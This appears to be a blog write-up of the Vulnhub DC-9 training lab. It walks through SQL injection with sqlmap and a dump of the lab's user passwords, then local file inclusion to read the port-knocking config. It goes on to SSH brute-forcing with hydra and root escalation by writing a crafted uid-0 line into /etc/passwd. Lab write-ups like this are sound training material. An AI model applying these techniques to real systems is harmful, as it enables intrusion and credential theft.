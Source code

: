 ```yaml
---
layout: PostSimple
date: 2020-02-01
title:     "Vulnhub - DC 9"
tags: ['medium','sqli','lfi','knockd','hydra','sudo']
---
```


Today, We are going to pwn DC 9 by DCAU7 from Vulnhub.

## Description:
DC-9 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.


Download Link : [https://www.vulnhub.com/entry/dc-9,412/](https://www.vulnhub.com/entry/dc-9,412/)

Lets Begin with our nmap scan as always

## Nmap Scan Results:
```
PORT   STATE    SERVICE
22/tcp filtered ssh
80/tcp open     http

PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
MAC Address: 08:00:27:1C:9A:EF (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

`` Note : SSH is Filtered ``

Let's Begin with Webpage[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/1.png)

Gobuster Scan doesn't give anything useful.

While checking the webpages found 2 interesting pages.

``/search.php``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/2.png)[br/](br/)
In ``search.php`` we can search the staff name and It will display their details. ``display.php`` contains all staff details.

``/manage.php``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/3.png)

I tried normal sql injection commands on ``/manage.php`` nothing worked.

So I capture ``/search.php`` request and try that with ``sqlmap``

> sqlmap - automatic SQL injection tool

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/4.png)[br/](br/)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/5.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/6.png)

Yes It worked! Got 3 available databases.

```
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```
So I tried to see whats in ``users``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/7.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/8.png)

```
-D DB               DBMS database to enumerate
--tables            Enumerate DBMS database tables
```
Now I got the table.

Lets dig inside it![br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/9.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/10.png)

`` -T TBL              DBMS database table(s) to enumerate ``

Lets dump them[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/11.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/12.png)

We got the users and their passwords!

```
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```
I tried login with them in ``/manage.php`` but didn't worked so I moved to another Database.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/13.png)[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/14.png)

```
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```
I cracked them with online crackers

> https://crackstation.net/

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/15.png)

Now I tried with these creds `` admin:transorbital1 ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/16.png)

Successfully Logged in[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/17.png)[br/](br/)
While looking at the webpage there is a message `` File does not exist `` on the footer.

So I tried normal LFI
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/18.png)

Looks like its working.I searched for any log files available but nothing.

We already know that SSH port is filtered, it may be because of ``knockd service``.

> Once knockd is installed and running, you modify your firewall rules (e.g. iptables) to drop all incoming traffic to port 22. To the outside world, it's exactly as if you are not running SSH at all.


> Reference : https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd

There is a way to bypass it.

> Port Knocking works by opening ports on a firewall by generating a connection attempt on a set of prespecified closed ports. Once a correct sequence of connection attempts is received, the firewall will open the port that was previously closed.

So we need the sequence to open the port.

>https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/

From the blog I came to know we can see the sequence in ``/etc/knockd.conf``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/19.png)[br/](br/)
We got the sequence!!!

According to rapid7 we can use ``telnet`` for port knocking.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/20.png)

We opened the ``ssh`` port!

Now I can login , I tried with the same ``admin`` creds , didn't worked but we already have staffs name and their passwords.
So I started brute forcing using ``hydra``. 

> hydra - a very fast network logon cracker which supports many different services.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/21.png)

Got 3 user name and password. I logged in with `` janitor : Ilovepeepee ``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/22.png)[br/](br/)
While checking the home directory found a hidden folder[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/23.png)[br/](br/)
It gives us some new password so I added them into our old list and start bruteforcing again.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/24.png)
Now I got one more user password `` fredf : B4-Tru3-001 ``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/25.png)

## Privilege Escalation:

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/26.png)

Started with ``sudo -l`` like always. And seems like I can run ``test`` as root without password.
When I tried executing it shows some message `` read append ``. So I check the directory and found a py script.
The Script take the arguments that we give and open and write on the file.

So I created my own password

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/27.png)

> openssl passwd -1

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/28.png)

> w0lf:$1$AtYW6q22$t3BQ9bt9XrTfe.oK9SPpG/:0:0:w0lf:/root:/bin/bash

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/29.png)

Im Root!

Got the Flag

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc9/30.png)









